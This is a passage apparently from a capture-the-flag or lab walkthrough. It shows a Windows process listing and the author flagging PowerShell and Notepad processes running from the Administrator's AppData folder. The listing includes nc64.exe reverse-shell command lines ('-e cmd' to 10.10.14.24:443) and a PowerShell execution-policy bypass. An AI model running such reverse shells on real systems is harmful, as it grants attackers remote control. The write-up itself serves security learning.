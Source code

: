 ```
      880 cmd.exe                   C:\Windows\system32\cmd.exe /c ""C:\Users\Administrator\AppData\Roaming\Microsof...
     4544 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
     2108 notepad.exe               "C:\Windows\System32\notepad.exe" "C:\Users\Administrator\AppData\Roaming\Micros...
     2100 powershell.exe            powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Wind...
     3380 mysqld.exe                "C:\Program Files\MySQL\MySQL Server 8.0\bin\mysqld"  --defaults-file="C:\Progra...
     2368 mysqld.exe                "C:\Program Files\MySQL\MySQL Server 8.0\bin\mysqld" "--defaults-file=C:\Program...
      744 svchost.exe               C:\Windows\System32\svchost.exe -k LocalServiceNoNetwork -p -s DPS
     1300 svchost.exe               C:\Windows\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s UALSVC
     5664 svchost.exe               C:\Windows\System32\svchost.exe -k LocalService -p -s LicenseManager
     5928 svchost.exe               C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s StorSvc
     3572 svchost.exe               C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s DsSvc
     4296 taskhostw.exe             taskhostw.exe
     6120 svchost.exe               C:\Windows\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s PcaSvc
     4128 wsmprovhost.exe           C:\Windows\system32\wsmprovhost.exe -Embedding
     1988 nc64.exe                  "\\10.10.14.24\share\nc64.exe" -e cmd 10.10.14.24 443
     1556 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
     5056 cmd.exe                   cmd
     4124 cmd.exe                   "C:\Windows\System32\cmd.exe" /c C:\Windows\System32\WindowsPowerShell\v1.0\powe...
     1864 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
     5744 powershell.exe            C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  -WindowStyle Hidden -...
     2044 nc64.exe                  "\windows\system32\spool\drivers\color\nc64.exe" -e cmd 10.10.14.24 443
     3280 cmd.exe                   cmd
     4064 powershell.exe            powershell

```

Scanning through the list, these two jumped out:

```

     2108 notepad.exe               "C:\Windows\System32\notepad.exe" "C:\Users\Administrator\AppData\Roaming\Micros...
     2100 powershell.exe            powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Wind...

```

Process 2100 is PowerShell running out of the administrator’s `AppData` directory, and 2108 is Notepad editing something in the same path. I’ll get the full command line for each:
